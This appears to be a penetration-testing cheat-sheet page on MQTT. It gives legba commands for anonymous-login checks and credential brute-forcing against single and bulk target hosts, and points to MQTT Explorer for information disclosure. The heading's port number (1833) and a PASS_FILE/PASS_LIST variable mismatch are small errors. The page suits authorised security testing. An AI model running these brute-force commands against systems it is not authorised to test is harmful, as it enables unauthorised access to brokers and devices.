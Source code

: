 # 1833 - MQTT

## Potential Risks

### Unauthenticated Access

```bash
# https://github.com/evilsocket/legba
# RHOST=remoteHost; RPORT=1883
legba mqtt --target $RHOST:$RPORT \
    --username anonymous \
    --password loremIpsumDolorSitAmet

# Bulk testing
# RHOST_LIST=hosts.txt
legba mqtt --target @$RHOST_LIST \
    --username anonymous \
    --password loremIpsumDolorSitAmet \
    --output-format jsonl --output mqtt_unauth.json
```

### Brute Force

```bash
# https://github.com/evilsocket/legba
# RHOST=remoteHost; RPORT=1883
# USER_LIST=usernames.txt; PASS_FILE=passwords.txt
legba mqtt --target $RHOST:$RPORT \
    --username $USER_LIST \
    --password $PASS_LIST \
    --output-format jsonl --output mqtt_brute.json

# Bulk testing
# RHOST_LIST=hosts.txt
legba mqtt --target @$RHOST_LIST \
    --username $USER_LIST \
    --password $PASS_LIST \
    --output-format jsonl --output mqtt_brute.json
```

## Exploiting

### Information Disclosure

*   MQTT Explorer. <[https://github.com/thomasnordquist/MQTT-Explorer](https://github.com/thomasnordquist/MQTT-Explorer)>

    <figure><img src="../../.gitbook/assets/20240531_215806.png" alt=""><figcaption></figcaption></figure>

